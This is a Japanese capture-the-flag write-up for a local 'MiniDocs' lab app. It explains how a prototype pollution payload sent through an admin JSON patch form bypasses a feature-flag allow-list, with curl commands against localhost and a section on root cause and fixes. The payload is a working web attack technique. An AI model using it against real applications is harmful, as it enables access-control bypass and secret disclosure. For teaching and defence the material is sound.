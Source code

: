 # MiniDocs — Prototype Pollution

## 解法

### 1) `admin`から管理者画面へ
- **前提**：管理者でログイン済み（IDOR で入手したパスワードを使用）。
- **URL欄**：`http://127.0.0.1:8000/admin`
- 管理画面中部 **「設定変更」** に `patch (JSON)` テキストエリアと **Apply** ボタンがある。

### 2) フォーム/リクエストの JSON 形式
- サーバは本文を **JSON / URLエンコード両対応**で受理し、`json` フィールドをパースして `patch` として扱う。
- 受理される**ルートキー**は `limits` と `featureFlags` のみ（allow-list）。
- **正攻法の拒否**：`{"featureFlags":{"revealSecret":true}}` のように直接 `revealSecret` を指定しても、サーバ側で削除される（“システム専用フラグ”）。

### 3) 送信ペイロード
```json
{"featureFlags":{"__proto__":{"revealSecret":true}}}
```
- **狙い**：脆弱な `deepMerge` が **`__proto__` をそのまま潜る**ため、`Object.prototype.revealSecret = true` が汚染される。 

### 4) 送信後の画面変化と `<FLAG_PP>` の確認箇所
1. **Apply** で送信後、`/admin` に 302 リダイレクト。
2. 管理画面下部 **「現在の設定」** の内容に注目：  
   - `secretPreview` が **`"(hidden)" → "<FLAG_PP>"`** へ変化している。  
   - ここに `<FLAG_PP>` が可視化される。

### つまずきポイント / 代替ルート
- **直接指定は無効**：`{"featureFlags":{"revealSecret":true}}` は受理されても**削除**され効果なし。`__proto__` 経由のみ成功。

---

## 付録：curl 参考（数行）
> 先に **admin** でログインして Cookie を取得しておくこと。フラグの実文字列は表示しない。

```bash
# 1) admin でログイン
curl -s -c c.txt -d 'user=admin&pass=<hidden>' http://127.0.0.1:8000/login > /dev/null

# 2) __proto__ 汚染を JSON で適用（/admin/feature-flags）
curl -s -b c.txt -H 'Content-Type: application/json'   -d '{"featureFlags":{"__proto__":{"revealSecret":true}}}'   http://127.0.0.1:8000/admin/feature-flags > /dev/null

# 3) Diagnostics で secretPreview の露出を確認
curl -s -b c.txt http://127.0.0.1:8000/admin | grep -A2 '"secretPreview"'   # => "<FLAG_PP>"
```

---

## 根本原因と対策（Prototype Pollution）
- **原因**：再帰マージ `deepMerge` が **`__proto__`/`prototype`/`constructor`** を**ブロックせず**に潜るため、`Object.prototype` が汚染される。UI 側も `ownProperty` 判定をせず参照。  
- **対策（最小）**：
  - ① マージ前に **危険キー拒否**（`['__proto__','prototype','constructor']` を除去）。  
  - ② ライブラリ利用時は **proto 汚染無効化オプション**を有効化。  
  - ③ 参照側も **`Object.hasOwn` / `hasOwnProperty`** で自前プロパティのみ採用する二重防御。
